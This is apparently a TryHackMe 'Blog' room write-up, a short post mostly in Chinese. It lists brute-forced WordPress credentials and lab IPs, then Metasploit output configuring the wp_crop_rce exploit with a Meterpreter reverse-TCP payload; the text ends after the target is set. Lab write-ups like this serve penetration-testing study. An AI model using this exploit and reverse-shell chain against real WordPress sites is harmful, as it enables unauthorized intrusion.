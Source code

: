 ```yaml
---
layout: post
title: "Blog SUID privesc"
date: "2023-08-03"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - TryHackMe
---
```


# Blog SUID privesc
WordPress只暴力破解出一个有效用户名和密码：

login: kwheel password: cutiepie1

Kali Linux : 10.18.72.222

Target IP Address : 10.10.144.150

```
msf6 exploit(multi/http/wp_crop_rce) > show options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THEME_DIR                   no        The WordPress theme dir name (disable theme auto-detection if provided)
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.117.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/wp_crop_rce) > set PASSWORD cutiepie1
PASSWORD => cutiepie1
msf6 exploit(multi/http/wp_crop_rce) > set RHOSTS 10.10.144.150
```